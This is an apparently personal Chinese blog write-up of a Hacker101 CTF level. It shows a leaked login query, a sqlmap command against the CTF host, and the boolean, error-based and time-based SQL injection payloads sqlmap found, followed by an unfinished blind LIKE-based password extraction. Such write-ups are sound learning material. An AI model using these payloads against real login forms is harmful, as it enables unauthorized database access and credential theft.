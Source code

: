 ```yaml
---
layout: title
title: Hacker101 CTF-3
date: 2018-12-13 09:11:06
tags: hacker101
categories: Hack
---
```


这一个CMS加入了需要登录的信息。在进行创建和编辑的时候需要用户名。首先就想到了一些无脑的用户名，admin之类的。试了一下，觉得不应该是这么简单。

初步判断应该也是从SQL里面查取，所以尝试一下用`'`来注入。看看得到什么结果。

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

意思是说我们在用MySQL数据库；使用的python2.7的main.py里面的do_login()查数据。查询命令就是`'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')`

这个后面的%%可能就是过滤一些东西的，之后再看看。

我们用Sqlmap看看能不能够绕过这个表格POST。

```
 python2.7 sqlmap.py -u http://35.196.135.216:5001/2f6fc5c078/login --data "username=&password=" --dbms mysql
```

然后得到的这个结果

```
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=' OR NOT 1504=1504#&password=
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=' AND (SELECT 1816 FROM(SELECT COUNT(*),CONCAT(0x7162716271,(SELECT (ELT(1816=1816,1))),0x71707a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TMjy&password=
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=' OR SLEEP(5)-- UXmq&password=
```

比如我们这个样注入一条`' or 1=1#`，第一个引号终止了原来的用户名，#表示注释掉后面的冒号，用来输入一个`1=1`的True的结果。但是得到的结果仍然是unknown user，这个时候在回头看python那个cur的函数，发现应该是这个函数来得到的布尔值，而不是里面的参数。

这里引入一下[Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) 来寻找有效的数据库的值。

定一个查询函数使用`LIKE`，我们就可以匹配有效的密码。

```
'SELECT password FROM admins WHERE username=' ' or password LIKE "%x"#
```
`%`在这里表示字符的数量，包括0。x是一个从小写a-z和大写A-Z以及数字0里面的字符。查询x是否在里面。但是我们注意到%也是过滤器，被后面的replace函数过滤掉了。所以查询函数被清理成:

```
'SELECT password FROM admins WHERE username=' ' or password LIKE "%%x"#
```

目前卡在这里了，后续更新。